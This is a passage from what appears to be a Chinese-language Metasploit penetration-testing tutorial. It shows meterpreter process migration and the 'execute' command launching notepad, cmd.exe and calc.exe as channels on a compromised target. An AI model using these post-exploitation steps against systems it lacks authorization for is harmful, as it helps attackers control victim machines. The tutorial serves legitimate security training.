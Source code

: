 ```
meterpreter > migrate 2084
[*] Migrating to 2084...
[*] Migration completed successfully. 
```

这两个 meterpreter 命令非常方便，并且在渗透测试期间经常使用。它们的简单性和高生产力使它们非常适合使用。在我们的下一个示例中，我们将处理通信渠道以及如何有效地使用它们与目标进行通信。

# 与目标建立多个通信渠道

在这个教程中，我们将看看如何为与目标通信建立多个频道。我们在本章的介绍中讨论了 meterpreter 中客户端和服务器之间的通信是加密的，并且它使用**类型-长度-值（TLV）**协议进行数据传输。使用 TLV 的主要优势在于它允许将数据与特定的频道号标记，从而允许受害者上运行的多个程序与攻击机上的 meterpreter 进行通信。这有助于同时建立多个通信频道。

让我们现在分析如何使用 meterpreter 与目标机器建立多个通信频道。

## 准备工作

Meterpreter 提供了一个名为`execute`的特定命令，可以用于启动多个通信频道。首先，让我们运行`execute -h`命令，查看可用选项：

```
meterpreter > execute -h
Usage: execute -f file [options]
Executes a command on the remote machine.
OPTIONS:
-H Create the process hidden from view.
-a <opt> The arguments to pass to the command.
-c Channelized I/O (required for interaction).
-d <opt> The 'dummy' executable to launch when using -m.
-f <opt> The executable command to run.
-h Help menu.
-i Interact with the process after creating it.
-k Execute process on the meterpreters current desktop
-m Execute from memory.
-s <opt> Execute process in a given session as the session user
-t Execute process with currently impersonated thread token 
```

您可以看到`execute`命令提供给我们的各种参数。让我们使用其中一些参数来设置多个频道。

## 如何做...

要开始创建频道，我们将使用`execute`命令的`-f`运算符：

```
meterpreter > execute -f notepad.exe -c
Process 5708 created.
Channel 1 created. 
```

注意不同参数的使用。`-f`参数用于设置可执行命令，`-c`运算符用于设置通道化 I/O。现在我们可以再次运行 execute 命令，启动另一个频道，而不终止当前频道：

```
meterpreter > execute -f cmd.exe -c
Process 4472 created.
Channel 2 created.
meterpreter > execute -f calc.exe -c
Process 6000 created.
Channel 3 created. 
```
